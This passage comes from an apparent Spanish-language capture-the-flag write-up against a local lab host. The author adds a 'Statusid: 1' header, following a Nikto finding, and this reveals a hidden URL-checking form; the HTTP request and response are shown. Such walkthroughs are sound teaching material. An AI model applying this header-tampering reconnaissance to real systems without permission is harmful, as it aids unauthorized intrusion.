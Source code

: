 Vemos que efectivamente contiene en la respuesta el `Statusid` que nos estaba reportando `Nikto`, si probamos a ponerlo en `1` y enviamos la respuesta no va a funcionar directamente ahi, por lo que vamos a probar a modificar la `peticion` del cliente para añadir directamente el `Statusid` con el valor `1` a ver que pasa, quedando algo asi:

> Peticion Cliente Modificada

```
GET /status.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Statusid: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Si lo enviamos nos contestara esto el servidor:

> Respuesta Servidor

```
HTTP/1.1 200 OK
Date: Sun, 13 Jul 2025 07:46:41 GMT
Server: Apache/2.4.58 (Ubuntu)
Statusid: 1
Vary: Accept-Encoding
Content-Length: 304
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<h1>Server Status</h1>
<p>200</p>

<h1>Check Status</h1>
<form method="POST">
    <input type="url" name="url" placeholder="http://example.com" required>
    <button>Send</button>
</form>

<footer style="position: fixed; bottom: 10px; right: 10px; font-size: 0.9em; color: gray;">
    v0.2
</footer>
```

Vemos que el valor se modifico de forma correcta y que el contenido de la web es otra cosa, ha cambiado veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-13 094738.png" alt=""><figcaption></figcaption></figure>